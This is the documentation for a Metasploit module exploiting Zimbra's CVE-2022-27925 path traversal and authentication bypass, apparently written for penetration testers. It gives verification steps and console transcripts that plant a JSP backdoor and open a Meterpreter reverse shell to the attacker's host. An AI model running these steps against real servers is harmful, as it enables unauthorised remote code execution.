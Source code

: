 ## Vulnerable Application

This module exploits a path-traversal vulnerability as well as an authentication-bypass vulnerability
in the following versions of Zimbra Collaboration Suite:

* Zimbra Collaboration Suite Network Edition 9.0.0 Patch 23 (and earlier)
* Zimbra Collaboration Suite Network Edition 8.8.15 Patch 30 (and earlier)

Note that the open source edition is not affected.

Successful exploitation results in RCE as the `zimbra` user.

Installing the vulnerable versions of Zimbra is a pain, unfortunately. I used a trial version of ZCS 8.8.12,
which you can currently get [here](https://www.zimbra.com/downloads/zimbra-collaboration/). On the download page,
after you register with a valid email address, there's an "older versions" link where you can get vulnerable versions.

This module should be simple to use out of the box. Once the server is up, it's vulnerable.

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.166
RHOSTS => 10.0.0.166
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/wuuvqmtko.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/wuuvqmtko.jsp
[*] Sending stage (3020772 bytes) to 10.0.0.166
[+] Successfully triggered the payload
[+] Deleted ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/wuuvqmtko.jsp
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.166:35180) at 2022-08-19 11:06:38 -0700
```

There's no easy way that I see to check for the patch (and the only vulnerable version I have is
quite a bit older), so attempts to exploit patched versions will likely result in a warning message
that the target may not vulnerable:

```
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/gauca.jsp
[-] Exploit aborted due to failure: unknown: Payload was not uploaded, the server probably isn't vulnerable
[!] This exploit may require manual cleanup of '../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp' on the target
[*] Exploit completed, but no session was created.
```

## Verification Steps
1. `use exploit/linux/http/zimbra_mboximport_cve_2022_27925`
1. `set RHOSTS <TARGET HOSTS>`
1. `set LHOST <Address of Attacking Machine>`
1. `exploit`
1. You should get a shell as the `zimbra` user.

## Options

### `TARGET_PATH`

The path (traversal included) where the payload will extract to. The default is the webroot, which is usually pretty safe.

### `TARGET_FILENAME`

The actual filename. It really should end with `.jsp`, otherwise it won't execute.

By default, it's a random string with `.jsp` on the end. That should work fine, especially 
because we can't overwrite files and don't want to use the same payload name more than once.

### `RPORT_PUBLIC`

The HTTPS port for Zimbra, which is used to trigger the payload (since we can't seem to run JSP scripts in the zimbraAdmin root).

### `TARGET_USERNAME`

The username included in the `mboximport` request - any valid username works, `admin` is usually fine.

## Scenarios

### Zimbra Collaboration Suite Network Edition 8.8.12 Patch 6 on Ubuntu 18.04

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.166
RHOSTS => 10.0.0.166
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > show options

Module options (exploit/linux/http/zimbra_mboximport_cve_2022_27925):

   Name             Current Setting                                                                   Required  Description
   ----             ---------------                                                                   --------  -----------
   Proxies                                                                                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           10.0.0.166                                                                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT            7071                                                                              yes       The target port (TCP)
   RPORT_PUBLIC     443                                                                               no        The port used to trigger the payload (typically the main web port, as opposed to the admin port)
   SSL              true                                                                              no        Negotiate SSL/TLS for outgoing connections
   TARGET_FILENAME                                                                                    no        The filename to write in the target directory; should have a .jsp extension (default: <random>.jsp).
   TARGET_PATH      ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/  yes       The location the payload should extract to (can, and should, contain path traversal characters - "../../").
   TARGET_USERNAME  admin                                                                             yes       The target user, must be valid on the Zimbra server
   VHOST                                                                                              no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.0.146       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Zimbra Collaboration Suite

msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444 
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/nkxj.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/nkxj.jsp
[*] Sending stage (3020772 bytes) to 10.0.0.166
[+] Successfully triggered the payload
[+] Deleted ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/nkxj.jsp
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.166:48640) at 2022-08-22 11:08:19 -0700

meterpreter > getuid
Server username: zimbra

meterpreter > shell
Process 121849 created.
Channel 1 created.
/opt/zimbra/bin/zmcontrol -v
Release 8.8.12.GA.3794.UBUNTU18.64 UBUNTU18_64 NETWORK edition, Patch 8.8.12_P6.
```

### Zimbra Collaboration Suite Network Edition 8.8.15 Patch 33 on Ubuntu 18.04

Note: This version is not vulnerable, because the issue is patched

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.167
RHOSTS => 10.0.0.167
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/gauca.jsp
[-] Exploit aborted due to failure: unknown: Payload was not uploaded, the server probably isn't vulnerable
[!] This exploit may require manual cleanup of '../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp' on the target
[*] Exploit completed, but no session was created.
```

### Zimbra Collaboration Suite Open Source Edition Patch 8.8.12 Patch 6 on Ubuntu 18.04

Note: This version is not vulnerable, the open source edition doesn't have the correct path.

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.164
RHOSTS => 10.0.0.164
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444 
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/cualvccyq.jsp
[*] Sending POST request with ZIP file
[-] Exploit aborted due to failure: not-found: The target path was not found, target is probably not vulnerable
[*] Exploit completed, but no session was created.
```
